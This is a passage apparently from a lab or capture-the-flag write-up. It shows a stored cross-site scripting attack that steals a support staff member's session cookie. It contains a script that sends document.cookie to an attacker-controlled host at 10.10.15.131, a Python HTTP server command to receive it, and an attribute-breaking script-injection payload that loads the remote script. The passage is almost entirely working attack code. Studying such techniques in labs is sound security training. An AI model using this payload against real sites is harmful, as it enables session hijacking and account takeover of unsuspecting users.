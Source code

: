 {% tab title="script.js" %}
```javascript
new Image().src='http://10.10.15.131/index.php?c='+document.cookie
```
{% endtab %}

{% tab title="Python HTTP Server" %}
```bash
python3 -m http.server 80
```
{% endtab %}

{% tab title="Payload" %}
```javascript
"><script src=http://10.10.15.131/script.js></script>
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../../.gitbook/assets/xss_cookie.png" alt=""><figcaption><p>Figure 3: Snatching the support staff's cookie.</p></figcaption></figure>
